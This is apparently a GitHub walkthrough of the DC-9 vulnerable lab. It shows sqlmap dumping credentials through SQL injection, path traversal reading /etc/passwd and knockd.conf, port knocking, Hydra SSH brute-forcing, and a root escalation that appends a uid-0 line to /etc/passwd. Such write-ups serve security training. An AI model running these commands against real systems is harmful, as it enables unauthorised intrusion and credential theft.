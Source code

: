 # DC-9-Walkthro9ugh
DC 9 Walkthrough 

DC-9 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.




 # Scaning
  
  ### Reconnaissance 
  
Sudo netdiscover 

![Screenshot from 2023-01-27 15-28-48](https://user-images.githubusercontent.com/108471951/215263858-082ed825-2045-4932-8ae6-968c83f08a60.png)





### Nmap

nmap -sV -sC 192.168.0.114

![Screenshot from 2023-01-27 15-29-54](https://user-images.githubusercontent.com/108471951/215263906-ffc64d5e-6ce4-419c-8875-166a145e95ee.png)

nothing found in the namp result





### http 

#### visited website 

192.168.0.114

found records, search page and login portal


![Screenshot from 2023-01-27 15-32-35](https://user-images.githubusercontent.com/108471951/215264747-0f473527-c8fd-4005-99da-14f40ffcd015.png)



![Screenshot from 2023-01-27 15-32-47](https://user-images.githubusercontent.com/108471951/215264756-c7d19641-d1a6-4ced-bd0a-693396d205be.png)



![Screenshot from 2023-01-27 15-32-54](https://user-images.githubusercontent.com/108471951/215264760-c671defa-1e99-4628-a9c7-3f3ffa98b882.png)








### BurpSuite  

found sql vulnerability in search 


![Screenshot from 2023-01-27 15-37-14](https://user-images.githubusercontent.com/108471951/215264843-6ba82037-c40e-4280-a27f-a73a604529d3.png)

copied the burp requet as a text file dc9req.txt 
  
  
  
  
  
### Sqlmap
 
sqlmap -r dc9req.txt --dbs --batch

![Screenshot from 2023-01-27 15-38-56](https://user-images.githubusercontent.com/108471951/215264902-34e46de8-6154-485f-b2fd-22e0fb9254bb.png)






I got databases

![Screenshot from 2023-01-27 15-41-49](https://user-images.githubusercontent.com/108471951/215264981-04e5b990-3f00-4d0f-aa65-638865c0ff35.png)







### Enumuration



sqlmap -r dc9req.txt -D users --batch

![Screenshot from 2023-01-27 15-41-56](https://user-images.githubusercontent.com/108471951/215265055-2fc12d58-ab66-4f39-8396-b35249bb5a2c.png)






found users names and passwords

![Screenshot from 2023-01-27 15-42-02](https://user-images.githubusercontent.com/108471951/215265074-bc095131-f332-4e82-ae6a-926d9efea328.png)

made the users as users.txt and passwords as pass.txt





sqlmap -r dc9req.txt -D Staff --batch


![Screenshot from 2023-01-27 15-52-08](https://user-images.githubusercontent.com/108471951/215265226-6bce32ad-5eaf-48de-8785-dc0f5d633170.png)

found username admin and password but as u can see password in hash formate 





IN crackstation.net i decrypted the hash

https://crackstation.net/


![Screenshot from 2023-01-27 16-05-43](https://user-images.githubusercontent.com/108471951/215265474-2e3f8884-2d28-4211-9a92-809dbbf4e3fc.png)


I got the password









### http


with the user name admin and password transorbitall i got login to the website as admin


![Screenshot from 2023-01-27 16-06-21](https://user-images.githubusercontent.com/108471951/215265532-34163c06-17b0-4c61-bc6b-4f20eef16df6.png)







#### http://192.168.0.114/welcome.php?file=../../../../../../../etc/passwd

![Screenshot from 2023-01-27 16-07-05](https://user-images.githubusercontent.com/108471951/215265590-dbf9b938-5b3e-4324-9dee-4daf64979b90.png)



![Screenshot from 2023-01-27 16-08-45](https://user-images.githubusercontent.com/108471951/215265597-24bfe71b-5bd4-4508-93ab-ea4db673cdc5.png)

as we can see there is no login for shh 





But as u can see the ssh port 22 is closed 


![Screenshot from 2023-01-27 16-09-07](https://user-images.githubusercontent.com/108471951/215265660-46b49973-3691-4f0b-9e5c-da68ed0a063b.png)





To open the ssh port


http://192.168.0.114/welcome.php?file=../../../../../../../etc/knockd.conf

![Screenshot from 2023-01-27 16-11-55](https://user-images.githubusercontent.com/108471951/215265699-8571e126-5191-4989-a85a-5dcdd4b13f87.png)

I found some ports 7469,8475,9842 ,By knockig the ports at a time we can open ssh port 








knock 192.168.0.114 7469 8475 9842

![Screenshot from 2023-01-27 16-17-00](https://user-images.githubusercontent.com/108471951/215266612-b164a860-61bf-4b14-9c0a-c2d9b815dbe0.png)






nmap -sV -sC -A -p22 192.168.0.114

![Screenshot from 2023-01-27 16-17-13](https://user-images.githubusercontent.com/108471951/215266673-c205a820-9396-4961-9153-e38a9cd271fa.png)


now ssh port 22 is open






### hydra 


hydra -L users.txt -P pass.txt shh://192.168.0.114

![Screenshot from 2023-01-27 16-21-06](https://user-images.githubusercontent.com/108471951/215266728-e726331a-61f5-4f28-a3d9-c99b9c380d02.png)


I got some login credinatials 






### ssh login

ssh janitor@192.168.0.114

ls -la

![Screenshot from 2023-01-27 16-24-58](https://user-images.githubusercontent.com/108471951/215266786-d49d9b18-ab52-4bf7-b723-3f5392e51d01.png)


I found some secret folder






### enumuration



cd .secrets-for-putin/

ls

found some passwords file 

cat passwords-found-on-post-it-notes.txt



![Screenshot from 2023-01-27 16-26-06](https://user-images.githubusercontent.com/108471951/215266906-ba69a4c2-9a66-4b56-acce-d03482941e02.png)


I copied this passwords and pasted in the pass.txt file which i created before



### hyrda 

again i am doin bruteforce with the passwords which i got now





hydra -L users.txt -P pass.txt shh://192.168.0.114


![Screenshot from 2023-01-27 16-33-59](https://user-images.githubusercontent.com/108471951/215267052-24c1d16a-1ff8-43b1-8757-f8418eb89d97.png)


got one new user credintails 





### ssh



ssh fredf@192.168.0.114

sudo -l 


![Screenshot from 2023-01-27 16-35-36](https://user-images.githubusercontent.com/108471951/215267146-8a44da20-a09a-4e90-b963-e7f27c0d67f3.png)

As we can see there is no need of passwd required for root in /opt/devtuff/dist/test/test

so I can create a root user there 







openssl paaswd -1 -salt craw 123456


![Screenshot from 2023-01-28 16-05-09](https://user-images.githubusercontent.com/108471951/215267244-d7c907e8-3e6f-438e-8be9-97ca3ce13549.png)

user name craw paswd 123456






cd //opt/devtuff/dist/test


eco 'craw:$1$craw$ldNVG4fm2XzHpzdZzWCqx0:0:0::/root:/bin/bash' >> /tmp/ak


sudo .test /tmp/ak /etc/passwd

su craw


![Screenshot from 2023-01-28 16-05-31](https://user-images.githubusercontent.com/108471951/215267351-9a8cd713-278a-4196-b2c5-c84922a45c8f.png)






now we are login as root user with user craw


cd /root

ls

cat theflag.txt


![Screenshot from 2023-01-28 16-05-39](https://user-images.githubusercontent.com/108471951/215267395-fb4b1525-9a1e-49bc-90ff-fadef1c7bc5a.png)









Successfully found the flag  


![Screenshot from 2023-01-28 16-05-52](https://user-images.githubusercontent.com/108471951/215267402-04c917fb-60d1-4f45-91ef-1dcc57cd22ec.png)





@robinpaul

#robinpaul

